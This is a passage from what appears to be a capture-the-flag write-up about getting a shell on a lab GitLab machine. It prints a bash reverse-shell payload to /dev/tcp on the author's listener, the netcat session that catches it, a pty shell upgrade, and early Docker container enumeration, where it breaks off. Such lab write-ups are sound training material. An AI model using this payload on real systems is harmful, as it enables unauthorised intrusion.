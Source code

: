 
I’ll write a simple payload and save it as `sh` in the hosted directory:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    

On re-running the same `curl` command, the hit on the webserver is successful
this time:

    
    
    10.10.10.216 - - [07/Mar/2021 04:56:49] "GET /sh HTTP/1.1" 200 -
    

And there’s a shell at `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.216] 54360
    bash: cannot set terminal process group (414): Inappropriate ioctl for device
    bash: no job control in this shell
    git@git:~/gitlab-rails/working$ id
    uid=998(git) gid=998(git) groups=998(git)
    

I’ll upgrade the shell:

    
    
    git@git:~/gitlab-rails/working$ python3 -c 'import pty;pty.spawn("bash")'
    git@git:~/gitlab-rails/working$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    git@git:~/gitlab-rails/working$
    

## Shell as dexter

### Enumeration

#### Container

It becomes clear very quickly that there’s not much here except for GitLab,
and I’m in a Docker container:

  * There’s no users in `/home`.
  * Common binaries like `ip`, `ifconfig`, and `netstat` are not installed.
  * There’s a `/.dockerenv` file.

I can pull the local IP address from `/proc/net/fib_trie`:
